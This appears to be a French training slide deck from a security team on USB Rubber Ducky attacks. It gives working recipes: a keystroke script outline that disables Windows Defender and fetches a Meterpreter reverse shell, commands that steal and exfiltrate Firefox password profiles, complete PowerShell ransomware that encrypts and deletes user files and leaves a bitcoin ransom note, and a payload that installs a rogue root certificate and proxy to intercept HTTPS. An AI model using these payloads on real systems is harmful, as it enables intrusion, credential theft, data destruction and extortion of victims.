





## Attaques informatique

### YourLabs Business Service
### SecOps team

---

## RubberDucky

---?image=assets/mrrobot.jpg&size=contain

Note:
- vu dans Mr. Robot
- Elliot Alderson est un jeune informaticien vivant à New York, qui travaille en tant que technicien en sécurité informatique pour Allsafe Security. Celui-ci luttant constamment contre un trouble dissociatif de l'identité et de dépression, son processus de pensée semble fortement influencé par la paranoïa et l'illusion. Il pirate les comptes des gens, ce qui le conduit souvent à agir comme un cyber-justicier. Elliot rencontre « Mr. Robot », un mystérieux anarchiste qui souhaite le recruter dans son groupe de hackers connu sous le nom de « Fsociety ». Leur objectif consiste à rétablir l'équilibre de la société par la destruction des infrastructures des plus grosses banques et entreprises du monde, notamment le conglomérat E Corp. (surnommé « Evil Corp. » par Elliot) qui, comme client, par ailleurs, représente 80 % du chiffre d’affaires d’Allsafe Security.

---

## Fonctionnement

- clef usb d'apparence anodine |
- en fait un clavier scripté |
- 1000+ mots par minute |
- marche très bien sur tout OS bien à jour |

---?image=assets/ducky.jpg&size=contain

Note:
- une clef usb
- une carte memoire pour scripter la clef usb
- un etuit pour une illusion parfaite

---?image=assets/duckyclosed.png&size=contain

Note: le logo n'est pas present sur la version de production

---

## Exemples d'objectifs

- desactiver les antivirus |
- configurer un proxy |
- modifier d'autres paramêtres |
- démarrer un reverse shell |
- insertion de certificat d'autorité |
- démarrer des scripts powershell |
- tels que des ransomwares |

---?code=cmc/payload/meterpreter.txt&title=Exemple de script RubberDucky

@[1](Attendre 700 millisecondes)
@[2](Tappez Echap)
@[3](Attendre 100 millisecondes)
@[4](Ouvrir le menu démarrer)
@[6](Tapper "Windows Security")
@[8](Tapper Enter pour ouvrir la fenêtre de sécurité Windows)
@[10](Tapper Enter pour ouvrir "Protection")
@[11-18](Faire TAB 4 fois)
@[20](Tapper Enter pour ouvrir les paramêtres de protection)
@[22](Passe la protection de "Activée" à "Desactivée")
@[24](Passe de "Non" à "Oui" dans la confirmation)
@[26](Valide)
@[75](Ouvre l'executeur de commande)
@[77](Tapper la commande qui telecharge notre reverse shell)
@[83](Tapper la commande qui execute le reverse shell)
@[86-94](Efface les notifications pour ne pas laisser de trace)

---

# Compilation



Note:
- le compilateur est fournit en .jar c'est du java compilé et packagé
- `-i` input
- `-l` output, doit tjs etre inject.bin
- le plus important `-l` clavier

---

## Reverse shell



Note:
- Un reverse shell est un programme qui permet d'obtennir un acces distant pour
  executer des commandes
- Le but est de l'executer sur la machine de la victime pour qu'il se
  connecte a un shell qu'on a mit en ecoute de connection sur un serveur
- On utilise Msfvenom pour creer le payoad et Metasploit pour le server
  Meterpreter (cest sur celui ci que la victime va se connecter:
- `-a`: l'architecture CPU
- `--platform`: la plateforme (windows, android, nix...)
- `-p`: Le paylaod, dans ce cas meterpreter reverse_tcp
- `LHOST`: l'ip du server meterpreter
- `LPORT`: le port du server meterpreter
- `-e`: l'encoding
- `-f`: le format
- `>` /tmp/mad/666.exe: la destination

---

# Distribution

```
cd /tmp/mad && python -m http.server
# Sous ubuntu, debian... il faut utiliser python3 -m http.server
# car python = python2 sous ArchLinux python = python3
```

Note:
Une fois pret on utilise un petit server http pour que la victime puisse telecharger notre exe malvaillante

---



---

# Demo

---?video=https://yourlabs.io/oss/security/raw/master/assets/ducky-windoz.mp4

Note:
- Conclusion: ne ramassez pas les clefs usb que vous trouvez dans la rue

---?video=https://yourlabs.io/oss/security/raw/master/assets/ducky-windoz.mp4
---

## Usages

- Vol de mots de passe firefox |
- Keylogger |
- Screen capture |
- Downloader et uploader des fichiers |
- Implementation d'un ransome ware |
- Reconnaissance et mouvement transversaux dans le reseau |
- ... |

---

## Vol de mots de passe Firefox

```
meterpreter > shell
> powershell
> cd /users/<user> #(utilisez whoami pr le savoir)
> copy-item /users/33768/AppData/Roaming/Mozilla/Firefox/Profiles/*.default-release -destination /windows/temp/mad.default-release -recurse
> Compress-Archive -Path /windows/temp/mad.default-release -DestinationPath /windows/temp/mad.default-release.zip
> exit
> exit
meterpreter > Download /windows/temp/mad.default-release.zip /tmp
```

@[1](Lancer cmd)
@[2](Lancer powershell)
@[3-4](Copie des fichiers .default-release de firefox)
@[5](Compression dans fichiers dans une archive zip)
@[6-7](On exit 2 fois pour revenir au prompt `meterpreter >`)
@[8](Exifltration de l'archive zip)

Note:
Dans notre sessions meterpreter on zip les fichiers de profile firefox:

---

Dans un autre terminal, on unzip et place les fichier dans le repetoir ~/.mozila/firefox

```
$ unzip mad.default-release.zip
$ sudo cp -r mad.default-release /home/<you>/.mozilla/firefox
$ sudo chown -R <you>:<you> /home/<you>/.mozilla/firefox/mad.default-release
```

Par la suite on edite `~/.mozilla/firefox/profiles.ini avec le nouveau profile`

```
[Profile2]
Name=default-release
IsRelative=1
Path=mad.default-release
```

On utilise un outil appellé "firefox-decrypt":

```
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python firefox_decrypt.py
```

Et voici le resultat :)



---

##### Ransomewarer (oui bientot dans le dico)

On va encrypter le fichier avec de l'encryption symmetrique et utiliser de l'encryption asymmetrique pour encrypter la clée de cryptage...
Seul ceui qui a le certificat privé poura decrypter la clé utilisée..
Une encryption assymetrique pour tt encrypter prendrai trop de temps..

---

##### Setup

On a besoin d'une machine windows (vm ok) afin de creer un certificat:

```
# dans powershell
$cert = New-SelfSignedCertificate `
        -DnsName $YOUR_NAME `
        -CertStoreLocation "Cert:\CurrentUser\My" `
        -KeyLength 3072 `
        -HashAlgorithm "Sha384" `
        -NotBefore ((Get-Date).AddDays(-1)) `
        -NotAfter (Get-Date -Year 2099 -Month 12 -Day 31) `
        -Type DocumentEncryptionCert `
        -KeyUsage KeyEncipherment, DataEncipherment
```

On export ensuite le certificat:

```
> Export-Certificate -Cert $cert -FilePath "cert.cer" | Out-Null
```

On l'encode ensuite en base64:

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes("/users/...../cert.cer"))
```

---

##### L'attaque

On revient dans notre session Meterpreter:

1) on set des variables:

```
meterpreter > shell
> powershell
> Add-Type -AssemblyName System.web
# pour creer un mot de passe random

> $email = 'mon@email'
#l'email de l'attaquant, pour envoyer la clée chiffrer

> $btc = ''
l'addresse btc pr le payment $$

> $img = 'http://xxx.xxx.Xxx/xxx.jpg'
# Pour changer le wallpaper

> $pwd = [system.web.security.membership]::GeneratePassword(32,15)
# Mot de passe random

> $cert = "MIIECDCCAnCgAwIBAgIQFTufS/aikLxCOTgoWoLnyDANBgkqhkiG9w0BAQwFADARMQ8wDQYDVQQDDAZteWNlcnQwIBcNMTkxMTI5MTUyODQ3WhgPMjA5OTEyMzExNTI4NDhaMBExDzANBgNVBAMMBm15Y2VydDCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBAM/tJpom3ha8jKgtYzqoC2vIeJ/7xAHJ/B/q+FPS3ByhfsggnazOgMw+F6DIEnXG95wumlcF6e/M9gH2irUqwBIA0x2eDrGlH2k71ifE/iMe7TQBwe2uTDD0Vp3c6sFK6CMQOW3Ws30k2j+6E4KaUvdd52T5aYkYGCPj4MEe1noLy8t+GMDIT5bXw0TZluAGY6ExUVR8rN7AtsjBTcp9LWWw/5hlSZwDbMffYDdRlgm82QJedAYewyk6PwkjzcqsOdFV4Z8EmlIP2EM4Tnn6pHugJ3W5IIiRvNMVoPWiePBiThfR/npFnynqIDxJr973vdOjtCHBujTnU28nQfPqMb8E0lqlSeXskjZV176nuXB/1blvkNm0IYnJ/pm6i4p9mBjS0RoKlbPUg8iFcmtjjytQdjXDDtDpixyGcW/QfXyJFcfjl16A27QN3dNXEKYdhKhPSXM8zRedecpcvHl4t3iawW0EZlsFqzKlyjtr7zi5uj9nGHQajPBqNHrCXl6aJQIDAQABo1owWDAOBgNVHQ8BAf8EBAMCBDAwFAYDVR0lBA0wCwYJKwYBBAGCN1ABMBEGA1UdEQQKMAiCBm15Y2VydDAdBgNVHQ4EFgQUrwXEYlg0/q3ImayX6udhRvOTyt0wDQYJKoZIhvcNAQEMBQADggGBAHyM16X0efwFC2DwbbFT0RoFU9MLfEv1OrkaHFNPjn37p/53638o78dkBt28Hoi9LuGbN20dN7N0yu4W/cyFnuGjoz5zv2M9Tbipp+gO91jruxZmrXz6NSV/5jhAehZyP1MvVg1Nyub6n3WXkhekFQCmq0LORqBfgscwV2MNV1or2ThWCKRygrm3TgvuxPi5Wt40KrYTrp6VmVq39rXnfWJZD5oiCeIEI2OVf5BfFt1sgC4f2CQ2Ig/mjFrzzTtJWu5tNmJNknE8FIQN48LVsO7EFONXcx3VQ/WNO7Efo17BUCYl+CPNcYDMLWP/oKA/Hdbv4OTLcBbpiO0nNB1USn1YPASypVcXGC9y9Z6APBtrN4oVFY3yiuScXFjIm/fCWZN5IYpwIv3WuRG+p+X2ZE9Gw2GgeQCdpBXaS/YDix0oFHI3sRtmmUs0oKjbQEsEOgyOYnd65k5PK2Fcb/Rph0X+G97ErvOqlvhvfnvX0AosdCHnneYoBy0IcZYji2reAA=="
# Le certificat public en b64
```

---

2) On creer ensuite une fonction de cryptage:

```
Function Encr{param([string]$i,[string]$p)
  process{
    [System.Security.Cryptography.AesCryptoServiceProvider]$a=[System.Security.Cryptography.AesCryptoServiceProvider]::new()
    $a.BlockSize=128
    $a.KeySize=256
    $a.Mode=[System.Security.Cryptography.CipherMode]::CBC
    $a.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7
    $a.GenerateIV();[byte[]]$IV=$a.IV;[byte[]]$k=[system.Text.Encoding]::UTF8.GetBytes($pwd)
    [System.IO.FileStream]$fout=[System.IO.FileStream]::new($i+".MAD_666",[System.IO.FileMode]::Create)
    [System.Security.Cryptography.ICryptoTransform]$IC=$a.CreateEncryptor($k,$IV)
    [System.Security.Cryptography.CryptoStream]$CS=[System.Security.Cryptography.CryptoStream]::new($fout, $IC, [System.Security.Cryptography.CryptoStreamMode]::Write)
    [System.IO.FileStream]$fin=[System.IO.FileStream]::new($i,[System.IO.FileMode]::Open)
    $fout.Write($IV,0,$IV.Count)
    $DA=$true;[int]$D
    While ($DA){
      $D=$fin.ReadByte()
      if($D -ne -1){
        $CS.WriteByte([byte]$D)
      }
      else{
        $DA = $false
      }
    }
    $fin.Dispose();
    $CS.Dispose();
    $fout.Dispose()
  }
}
```

3) On fait une boucle pour encrcypter les fichier (dans un nouveau fichier), on overwrite les fichiers source avant de les supprimés

```
foreach ($i in $(Get-ChildItem /users/$env:USERNAME -recurse -include *.txt,*.jpg,*mp3 | ForEach-Object { $_.FullName })){
  Encr -i $i -p $pwd
  $size = [math]::round(((Get-Item $i)).length/4)+1
  $str = "fuck" * $size
  echo $str > $i
  rm $i
}
```

---

4) On encrypte la clée de chiffrement avec notre certificat public

```
> $cert =  [IO.File]::WriteAllBytes("/windows/temp/x.cer", [Convert]::FromBase64String($cert))
#On decode le certificat

> echo (Protect-CmsMessage -Content $pwd -To "/windows/temp/x.cer") > /users/$env:USERNAME/desktop/encrypted_key.txt
# On encrypte la clée avec le certificat grace à `protect-cmsmessage`

> remove-variable pwd
# On supprime la variable pwd
```
---

5) Message pour la victime

changer le wallpaper (facultatif):

```
> Invoke-WebRequest -Uri $img -OutFile "/users/$env:USERNAME/img.jpg"
# On telecharge l'image

> Set-ItemProperty -path 'HKCU:\Control Panel\Desktop\' -name wallpaper -value "/users/$env:USERNAME/img.jpg"
> rundll32.exe user32.dll, UpdatePerUserSystemParameters
# On change le wallaper
```

On ecrit un msg sur le bureau de la victime:

```
echo "Send 0.1 btc to this account: $btc
After that, for the decryption keys and instructions for how to retrieve your files
send the content of the encrypted_keys and a proof of payment to this email: $email" > /users/$env:USERNAME/desktop/README.txt
```

6) On redemarre la machine de la victime (facultatif mais besoin pr le changement de wallpaper);

```
> restart-computer -force
```

---

##### La decrytion

1) La victime va envoyer la clée encrypter avec le certificat public, pour la decrypter:

```
# Sur la machine de l'attaquant
> Unprotect-CmsMessage -path .../encrypted_key.txt
```

2) On creer un script pour decrypter les fichiers infectés:

```
$pwd = ''
#Le password decrypté

function Decr{
  param([string]$i,[string]$p)
  process {
    $out = $i -replace ".{7}$"
    [System.IO.FStream]$FileStreamIn = [System.IO.FileStream]::new($i,[System.IO.FileMode]::Open)
    [byte[]]$IV = New-Object byte[] 16; $FileStreamIn.Read($IV, 0, $IV.Length)
    [System.Security.Cryptography.AesCryptoServiceProvider]$Aes =  [System.Security.Cryptography.AesCryptoServiceProvider]::new()
    $Aes.BlockSize = 128; $Aes.KeySize = 256; $Aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $Aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    [byte[]]$Key = [system.Text.Encoding]::UTF8.GetBytes($Password)
    [System.IO.FileStream]$FileStreamOut = [System.IO.FileStream]::new($out,[System.IO.FileMode]::Create)
    [System.Security.Cryptography.ICryptoTransform]$ICryptoTransform = $Aes.CreateDecryptor($Key,$IV)
    [System.Security.Cryptography.CryptoStream]$CryptoStream = [System.Security.Cryptography.CryptoStream]::new($FileStreamIn, $ICryptoTransform, [System.Security.Cryptography.CryptoStreamMode]::Read)
    $DataAvailable = $true; [int]$Data
    While ($DataAvailable){
      $Data = $CryptoStream.ReadByte()
      if($Data -ne -1){
        $FileStreamOut.WriteByte([byte]$Data)
      }
      else{
        $DataAvailable = $false
      }
    }
    $FileStreamIn.Dispose()
    $CryptoStream.Dispose()
    $FileStreamOut.Dispose()
  }
}

# On loop et decrypte les fichiers avec l'extention ".LCK_666"
foreach ($i in $(Get-ChildItem /users/$env:USERNAME -recurse -include *.LCK_666 | ForEach-Object { $_.FullName })){
  Decr -i $i -p $pwd
  rm $i
}
```

On envoie par mail a la victime le script qu'il devra copier-coller dans powershell...

---

## SSL mitm

Les connections en http (port 80) ne sont pas crypter, il est donc facile de le sniffer..
En revanche les connection en https (port 443, avec le petit cadenas) sont crypté avec ssl (Secure Socket Layer) qui utilise rsa (encryption asymetrique, comme pour notre petit ransomeware)

Dans cet exemple on va inserer un certificat dans le trust root ca store.
On va egalement canger les network settings afin d'ajoutter un proxy pr que le traffic passe par notre mitmproxy server

---

#### Setup

On encoder le certificat publique du mitmproxy (celui au format p12) en base64 (celui de windows) avec:

```
powershell> $b64str = [Convert]::ToBase64String([IO.File]::ReadAllBytes($certificatPath))
```

On cree un fichier txt pour le rubberducky:

```
STRING [IO.File]::WriteAllBytes('C:/Windows/Temp/cert.p12', [Convert]::FromBase64String("MIIEcAIBAzCCBDoGCSqGSIb3DQEHAaCCBCsEggQnMIIEIzCCBB8GCSqGSIb3DQEHBqCCBBAwggQMAgEAMIIEBQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQIKn7/Eg6FTsMCAggAgIID2Jb5bLWzZkMoSQu7/X+KOo03XiM4XoFZn3qX7ezbW88mnXE8DNZmp58NYNL8QtF3htkTluzAG+k9YXkzuygt1FcpaJIq/iNO0KpNvZURoQhvF93IbIyPT50pYS0hpXep9prbyxQdzoLgAncPAsjU/ExS+1xrVuy3Jx1LY3npa+0svCJO9QQC3EDrSzb6xbNvk9hF5SGhhecACuQPmbTj6zjbXVq7hmaj7sneMXihPId5R/QOcF+ctIqMUM6HpMtbTrIjhALPkVjyaLx0fL+JJi3fIUCqoTCY1NRPlWH5DJAwc3Z0efd3ij8/UzuoJqdB3mL3ketmTETQyRq24P+p4P1LHIPe+jAuozHUkVRRCKcS0OEhF9XH9BPw1iSK0Iqq7pNiUdkLH7402ypjTo3L/FXFqeu/MgPvYOtHyixqyB8gDQ+5xTzYzKTAB76v5PkG61ix0IunSFffvtfy0DEuAbv2jUt6wxrYfx1mNsUzUpQAVWLB97d3IPNQDGcYxiKf2UeLGF3IY5mF2qkain4I/bHY0Jj/iDmuy7Gtpx78MbjeQ+vEEdotj9HNVgWaM/Filyf5yvsZKJN1FVTfAbqqGgV4QoT/7wjZjyYWQHqkwNXnls2ZaefHqRBW64OBHMCd9T8WR/9JU06cEhXZfjnQlQIdeZXWsQSFIVaZavAkxavqYD3zdRWA97qRtGo6rnWQUm0b6o11t/dBzsxqqcHhiJ+SpTokRSLtuG9S1Wa040dBUWr3WucBhwTotzWVihDuhZfxUu7MOJtVZnSJpHKEE/MkvNPjVv9TdG0y/ntLaYLhOcl2eKo+OpEfxZm+vDPwj+c6HDh7+3sUsb6nIiE5pUj6udOMYgnq/RA8vYClGvL0o2XsW+KOasoqvr4/e1GihurcRvubusXE/IftH5XvmBHlPSm8R3tupSp02+RZTV7ct+Rw5AM/XVLwXuj4vTAxOXCL/KvdS/HbzeE7L8pxGBhLdeluNV6MpXGdog/Rs8MmAemAxeuMXH+xbux6lgPTLJI8Rm27poQVSPTxN8oQu742CuDkym3lCneS5XR8Zmd0Dnt4OwXVsjc5HykLEFUXutsNUv1BzKXjGknv5FRpIEZ5pIlmf8Nk+Q3urfk/o7Sxug297KTHb61ZgzpiwgCT/R7QV0ZOghNwk/ZnMil5eDY+mHNhBI988wancioLIeC+lK579WUTmTGpO4z10K4A++n8nLSI/P2LG/LoaI+jdLDl3AkKGvu1tqE15FeIe2xLCBYWAVjdq+QwfmaRThHpItcuK01B5DMX2nB66bCy8t2e93i2bRPlhzAtMCEwCQYFKw4DAhoFAAQUUj8Qkw1qHfkW3K+fjyn2nPnhUrMECJdQ7sNKJQNK"))

DELAY 800
ENTER
STRING Start-Process "C:/Windows/Temp/cert.p12"
```

Pour ajouter l'addr et le port du server proxy et l'active:

```
STRING $reg = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings"; Set-ItemProperty -Path $reg -Name ProxyServer -Value "192.168.1.19:8080";Set-ItemProperty -Path $reg -Name ProxyEnable -Value 1
DELAY 300
ENTER
```

On compilez le script avec `java -jar -i mitm.txt -o inject.bin -l fr` et inserez le das le ducky rubber


---

#### L'attaque

On lance le mitmproxy avec

```
mitmproxy
```

On plug la clée usb et apres 20 seconde, voila le resultat



Les communications se font toujours en https, mais nous sommes maintenant capable de les voire en claires  :)

